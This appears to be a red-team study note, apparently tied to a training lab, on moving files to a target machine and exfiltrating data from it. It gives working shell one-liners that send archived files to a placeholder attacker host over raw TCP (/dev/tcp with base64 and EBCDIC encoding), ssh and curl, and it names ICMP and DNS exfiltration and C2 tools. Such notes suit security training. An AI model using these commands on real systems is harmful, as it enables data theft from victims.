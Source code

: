For the sake of example, everything labeled as a "task" can be considered the data being exfiltrated. 

> [!danger] Detection Risk
> Don't burn important host IPs onto a blacklist trying to download autopwn.exe or something stupid. Be cognizant of your situation, and act accordingly. Run stuff by more senior teammates if you don't know for sure. 


[[#File Transfers]] are TO a target machine, [[#Exfiltration]] is FROM a target machine. 

# File Transfers
## HTTP
```shell
python -m SimpleHTTPServer <portno> # Start a python 2 http server in cwd
python3 -m http.server <portno> # start a python3 http server in cwd
```

## SMB
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

## Client Side

# Exfiltration
## Raw TCP Sockets
[[Netcat]] Example Command: 
```shell
nc -lvp 8080 > /tmp/task4-creds.data # Receive
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ATK_IP>/8080 # Send
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar # Recombine
tar xvf task4-creds.tar # Decompress
```

## SSH
```shell
tar cf - task5/ | ssh thm@<ATK_IP> "cd /tmp/; tar xpf -" # On victim machine
```

## HTTP
```shell
curl --data "file=$(tar zcf - task6 | base64)" http://<ATK_IP>/bogus.php
```
This will leave the data base64 encoded in apache's access.log. 
[[Neo-reGeorg]]

## ICMP
Ping has a data section we can use for exfil. Also see [[ICMPdoor]] for ICMP C2. 

## DNS
Add data as TXT record on a DNS server and retrieve with dig. [[Iodined]] for C2.
